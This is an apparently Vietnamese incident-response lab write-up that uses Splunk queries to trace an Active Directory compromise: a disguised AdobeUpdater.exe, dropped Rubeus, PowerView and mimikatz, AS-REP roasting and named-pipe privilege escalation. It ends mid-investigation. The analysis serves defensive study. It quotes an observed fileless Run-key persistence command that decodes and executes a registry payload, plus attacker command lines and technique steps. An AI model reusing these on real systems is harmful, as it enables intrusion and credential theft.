# ShadowRoast Lab
# Thông tin chung
## Tình huống

As a cybersecurity analyst at TechSecure Corp, you have been alerted to unusual activities within the company's Active Directory environment. Initial reports suggest unauthorized access and possible privilege escalation attempts.
Your task is to analyze the provided logs to uncover the attack's extent and identify the malicious actions taken by the attacker. Your investigation will be crucial in mitigating the threat and securing the network.

## Danh sách host

Field `host` trong Splunk chỉ hiện `Windows` nên ta sẽ lọc các host bằng field `source`.




| Host | IP | Vai trò |
|---|---|---|
| Office-PC | 10.0.0.184 | Máy trạm của nhân viên |
| FileServer | 10.0.0.161 | File server  |
| DC01 | 10.0.0.147 | Domain Controller (`CORPNET.local`) |

Query xác định IP các host
```spl
index=shadowroast log.file.path=*sysmon* event.code=22 QueryName IN (*office-pc*, *dc01*, *FileServer*)
| table _time winlog.event_data.QueryName winlog.event_data.QueryResults
```
# Điều tra

## Host 1: Office-PC (10.0.0.184)

### 1.1 Process tạo ra bởi user

Ta sẽ bắt đầu điều tra từ Sysmon Event 1 (tạo process) trên Office-PC, vì máy trạm nhân viên có khả năng truy cập Internet nên thường là điểm xâm nhập đầu tiên (phishing, file độc hại tải từ Internet...). DC và file server chỉ hoạt động nội bộ, attacker thường chiếm máy trạm rồi mới lateral movement sang các host khác trong mạng nội bộ.

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" event.code=1
| table _time winlog.event_data.LogonId winlog.event_data.User winlog.event_data.IntegrityLevel winlog.event_data.CurrentDirectory winlog.event_data.ParentProcessId winlog.event_data.ParentImage winlog.event_data.OriginalFileName winlog.event_data.ProcessId winlog.event_data.CommandLine
| sort _time
```



Vào 2024-08-06 01:05:11.925: `C:\Users\sanderson\Downloads\AdobeUpdater.exe` (PID 3540) được user sanderson khởi chạy với `IntegrityLevel = Medium`, parent process là `explorer.exe` (4340) chỉ ra rằng user chủ động double-click thực thi binary qua GUI. `OriginalFileName` trong PE header của binary là `ab.exe`, tên file bị đổi để giả mạo như là một trình cập nhật Adobe

Vào 2024-08-06 01:05:15.353, cùng binary trên chạy lần nữa (PID 4928), parent process vẫn là `explorer.exe` (4340), nhưng lần này chạy với `IntegrityLevel = High`. Giả thiết ở đây đó là user chủ động right-click và chọn ‘Run as administrator’, hộp thoại UAC hiện lên và user chọn Yes.

Process tree quan sát được từ AdobeUpdater.exe (PID 4928) chạy với Integrity level = High:

```text
2024-08-06 01:05:15.353  (4928) AdobeUpdater.exe                      [High, sanderson]
2024-08-06 01:07:34.837    -> (2320) cmd.exe
2024-08-06 01:07:40.312        -> (5228) powershell -ep bypass
2024-08-06 01:10:45.053            -> (2304) "C:\Users\Default\AppData\Local\Temp\BackupUtility.exe" asreproast /format:hashcat   (OriginalFileName = Rubeus.exe)
2024-08-06 01:14:08.475    -> (2008) cmd.exe                           [SYSTEM]
2024-08-06 01:14:21.057        -> (4780) powershell -ep bypass         [SYSTEM]
2024-08-06 01:14:46.864            -> (5740) C:\Users\Default\AppData\Local\Temp\DefragTool.exe   (OriginalFileName = mimikatz.exe) [SYSTEM]
```

### 1.2 Phiên đăng nhập của user sanderson

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" event.code=4624 ("0xc4220" OR "0xc41f2") winlog.event_data.TargetUserName=sanderson
| table _time source winlog.event_data.SubjectUserName winlog.event_data.AuthenticationPackageName winlog.event_data.LogonType winlog.event_data.TargetLogonId winlog.event_data.TargetUserName winlog.event_data.TargetUserSid
```




```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" event.code=4672 ("0xc4220" OR "0xc41f2")
```




- Vào 2024-08-06 01:03:38.050, user sanderson đăng nhập vào Office-PC với logon type = 11 (logon type 11 - CachedInteractive: Người dùng đăng nhập bằng tài khoản domain nhưng máy tính không thể kết nối tới Domain Controller tại thời điểm đó, vì vậy windows sẽ sử dụng credential hash đã được lưu sẵn trong cache trên máy tính để xác thực và cấp quyền cho người dùng).
- Do user sanderson có quyền quản trị nên Window tạo ra 2 phiên logon (`0xc4220` limited, `0xc41f2` elevated), một phiên chạy với access token bị giới hạn các quyền, phiên còn lại chạy với toàn bộ quyền vốn có của user. Mặc định, access token bị giới hạn sẽ được sử dụng, elevated token chỉ chỉ dùng khi user chủ động chọn Run as administrator hoặc xác nhận hộp thoại UAC (consent).
- Event 4672 cũng cho biết các privilege đặc biệt được gán cho user sanderson (logon ID 0xC41F2)

### 1.3 Hoạt động của AdobeUpdater.exe (4928)

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:05:15" winlog.event_data.ProcessId=4928 OR winlog.event_data.SourceProcessId=4928
| stats count by event.code
```




#### Kết nối C2

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" winlog.event_data.ProcessId=4928 event.code=3
| table _time winlog.event_data.DestinationIp winlog.event_data.DestinationPort
```




Chỉ 2 giây sau khi chạy, `AdobeUpdater.exe` kết nối tới 1 external IP là `223.247.47.74:80`

#### Drop payload

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:05:15" winlog.event_data.ProcessId=4928 event.code=11
| table _time winlog.event_data.TargetFilename
```

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:05:15" event.code=29
| table _time winlog.event_data.TargetFilename winlog.event_data.Hashes
```







| Timestamp | File drop trong `C:\Users\Default\AppData\Local\Temp\` | Tên thật | Hash |
|---|---|---|---|
| 2024-08-06 01:07:09 | `BackupUtility.exe` | Rubeus | SHA256 `1BFBEFA4FF4D0DF3EE0090B5079CF84ED2E8D5377BA5B7A30AFD88367D57B9FF`, MD5 `95BA181C0359495EFFEF4A990365752F` |
| 2024-08-06 01:07:14 | `SystemDiagnostics.ps1` | PowerView.ps1 |  |
| 2024-08-06 01:07:19 | `DefragTool.exe` | mimikatz.exe | SHA256 `92804FAAAB2175DC501D73E814663058C78C0A042675A8937266357BCFB96C50`, MD5 `E930B05EFE23891D19BC354A4209BE3E` |

Cả 3 file được drop trong thư mục Temp của*user `Default` (template profile để tạo profile cho user mới), thay vì của user `sanderson`, do đây là thư mục hiếm khi được truy cập.







#### Persistence: Run key HKCU

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" winlog.event_data.ProcessId=4928 event.code=13
| table _time winlog.event_data.User winlog.event_data.Image winlog.event_data.EventType winlog.event_data.TargetObject winlog.event_data.Details
```




Lúc 2024-08-06 01:05:58.546, `AdobeUpdater.exe` tạo value `wyW5PZyF` trong `HKU\S-1-5-21-...-1105\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` (`HKCU` -> chỉ có tác dụng với user sanderson) với nội dung:

```text
%COMSPEC% /b /c start /b /min powershell -nop -w hidden -c "sleep 0; iex([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((Get-Item 'HKCU:Software\EdI86bhr').GetValue('OQqd5sjJ'))))"
```

Giải thích lệnh: gọi `cmd.exe` chạy ngầm (-w hidden) một lệnh PowerShell, lệnh này đọc value `OQqd5sjJ` của key `HKCU:Software\EdI86bhr`, decode base64 rồi thực thi bằng `iex`. Payload không nằm trên disk mà giấu trong trong registry (fileless).

#### Recon AD bằng PowerView

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" earliest="08/06/2024:01:07:40" latest="08/06/2024:01:11:00" "event.code"=4104 "SystemDiagnostics.ps1"
| table _time winlog.event_data.ScriptBlockId winlog.event_data.Path winlog.event_data.ScriptBlockText
| sort _time
```




Lọc các event id 4104 – script block logging, trong khoảng thời gian process powershell (5228) được thực thi bởi AdobeUpdater.exe (4928), content của đoạn powershell được thực thi cho ta biết tệp SystemDiagnostics.ps1 được 
AdobeUpdater.exe drop vào thư mục Temp của Default user lúc trước chính là PowerView.ps1 (một công cụ viết bằng PowerShell nằm trong framework PowerSploit trên GitHub, được thiết kế để phục vụ việc trinh sát và thu thập thông tin (reconnaissance/enumeration) trong môi trường Windows Active Directory). Attacker thực hiện recon AD trước khi thực hiện AS-REP roasting với Rubeus nhằm đánh cắp credentials.


#### AS-REP roasting bằng Rubeus

Lệnh: `BackupUtility.exe asreproast /format:hashcat` (2024-08-06 01:10:45). `asreproast` là option AS-REP roasting của Rubeus, `/format:hashcat` xuất ta output hash theo định dạng hashcat để crack offline.

AS-REP roasting: Kerberos mặc định yêu cầu pre-authentication: trong tin nhắn AS-REQ client phải gửi timestamp mã hóa bằng 1 key tạo ra từ mật khẩu của tài khoản client thì KDC mới trả TGT. Nếu thuộc tính userAccountControl của account có bật cờ `DONT_REQUIRE_PREAUTH`, ai cũng có thể gửi AS-REQ cho account đó mà không cần biết mật khẩu. KDC sẽ trả lời bằng AS-REP, trong đó ngoài TGT ticket thì còn có một phần dữ liệu được mã hóa bằng key của chính user. Attacker lấy phần này đem crack offline để có plaintext password.

Phát hiện bằng event id 4768 (TGT request) với `PreAuthType = 0`:

```spl
index=shadowroast source="C:\\Logs\\DC01.ndjson" earliest="08/06/2024:01:10:45" event.code=4768 "winlog.event_data.PreAuthType"=0 "winlog.event_data.IpAddress"="::ffff:10.0.0.184"
| table _time winlog.event_data.ServiceName winlog.event_data.Status winlog.event_data.TicketOptions winlog.event_data.TicketEncryptionType winlog.event_data.TargetUserName winlog.event_data.TargetSid
| sort _time
```



| Timestamp | TargetUserName | SID | TicketOptions | Encryption |
|---|---|---|---|---|
| 2024-08-06 01:10:48.257 | Administrator | `...-500` | `0x40800010` | `0x17` (RC4) |
| 2024-08-06 01:10:48.319 | tcooper | `...-1103` | `0x40800010` | `0x17` |
| 2024-08-06 01:10:48.349 | FileShareService | `...-1104` | `0x40800010` | `0x17` |
| 2024-08-06 01:10:48.379 | sanderson | `...-1105` | `0x40800010` | `0x17` |
| 2024-08-06 01:13:28.234 | tcooper | `...-1103` | `0x40810010` | `0x17` |
| 2024-08-06 01:13:28.311 | tcooper | `...-1103` | `0x40810010` | `0x17` |

Ghi nhận 4 request đầu (2024-08-06 01:10:48.257-2024-08-06 01:10:48.379) trong 0,12 giây cho 4 tài khoản khác nhau (Administrator, tcooper, FileShareService, sanderson) với `Status 0x0` (thành công) -> dấu hiệu công cụ tự động quét hàng loạt account không bật pre-auth.

Kiểm tra TGS request (event id 4769) sau đó từ Office-PC:

```spl
index=shadowroast source="C:\\Logs\\DC01.ndjson" earliest="08/06/2024:01:10:45" event.code=4769 "winlog.event_data.IpAddress"="::ffff:10.0.0.184"
| table _time winlog.event_data.Status winlog.event_data.TicketEncryptionType winlog.event_data.TicketOptions winlog.event_data.TargetUserName winlog.event_data.ServiceName
| sort _time
```




Sau khi thực hiện AS-REP roasting, attacker thường xin TGT cho nhiều account nhưng chỉ dùng tiếp tài khoản nào crack thành công. Ở đây chỉ `tcooper` xin service ticket (7 event, 2024-08-06 01:13:28 → 2024-08-06 01:18:10): `OFFICE-PC$` (2024-08-06 01:13:28), `DC01$` (2024-08-06 01:13:28, 2024-08-06 01:15:21, 2024-08-06 01:18:10), `FILESERVER$` (2024-08-06 01:17:01). Hoạt động trong log quan sát thấy sau đó cho thấy tài khoản tcooper đã bị crack thành công và lạm dụng để thực hiện các hành động không mong muốn.

#### Leo thang đặc quyền lên SYSTEM

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" winlog.event_data.ProcessId=4928 event.code=17
| table _time winlog.event_data.EventType winlog.event_data.Image winlog.event_data.PipeName
```




Lúc 2024-08-06 01:14:00.584, `AdobeUpdater.exe` tạo named pipe tên ngẫu nhiên `\ekfqny`.





Ngay sau đó vào 2024-08-06 01:14:00.629, 1 service được tạo ra chạy lệnh: `cmd.exe /c echo ekfqny > \\.\pipe\ekfqny`, lệnh này ghi chuỗi 'ekfqny' vào pipe vừa được tạo ra bởi AdobeUpdater.exe. Sau đó vào 2024-08-06 01:14:08.475, `AdobeUpdater.exe` chạy dưới user NT AUTHORITY\SYSTEM  sinh ra `cmd.exe`, khởi chạy 1 lệnh powershell (4780), lệnh này sau đó chạy mimikatz (5740) dưới quyền hạn SYSTEM.

Nhiều khả năng attacker đã sử dụng kĩ thuật Named Pipe Client Impersonation để leo thang đặc quyền. Trong đó Named Pipe Client Impersonation là kỹ thuật mà attacker lợi dụng cơ chế impersonation của Windows để thực thi hành động dưới security context của một process có đặc quyền cao hơn, thường là NT AUTHORITY\SYSTEM. Kĩ thuật này cho phép 1 thread chạy trong process đóng vai trò là named-pipe server (tức process tạo pipe) hoạt động dưới security context của một named-pipe client mà kết nối tới pipe.

Các bước thực hiện của kĩ thuật:
1. Process của attacker tạo 1 pipe và trở thành 1 named-pipe server
2. Attacker ép 1 SYSTEM process kết nối tới pipe (ở trong bài lab này, attacker đã tạo 1 service và cho service đó chạy lệnh kết nối tới pipe)
3. Gọi winapi ImpersonateNamedPipeClient để impersonate security context liên quan đến process cuối cùng kết nối vào pipe
4. Gọi CreateProcessWithTokenW để chạy process mới dưới token vừa có được

Tham khảo: https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/named-pipe-client-impersonation.html

### 1.4 Chuyển sang tài khoản tcooper




```text
2024-08-06 01:13:13.309  Logon 0xc4220  CORPNET\sanderson  Medium   (4340) explorer.exe -> (5000) powershell.exe
2024-08-06 01:13:29.557  Logon 0x1ad6f9 CORPNET\tcooper    Medium   (5000) powershell.exe -> (5784) powershell.exe
2024-08-06 01:15:18.616  Logon 0x1ad6f9 CORPNET\tcooper    Medium   (5784) powershell.exe -> (2376) DefragTool.exe (mimikatz)
```




Vào 2024-08-06 01:13:13.309 user `sanderson` khởi chạy powershell (5000), process này chạy tiếp một powershell khác (5784) nhưng dưới danh tính tcooper. Sau đó, process powershell (5784) khởi chạy mimikatz vào 2024-08-06 01:15:18.616 

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" earliest="08/06/2024:01:13:13" latest="08/06/2024:01:13:30"
| stats count by event.code, log.file.path
```




```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" earliest="08/06/2024:01:13:13" latest="08/06/2024:01:13:30" event.code=4648
```

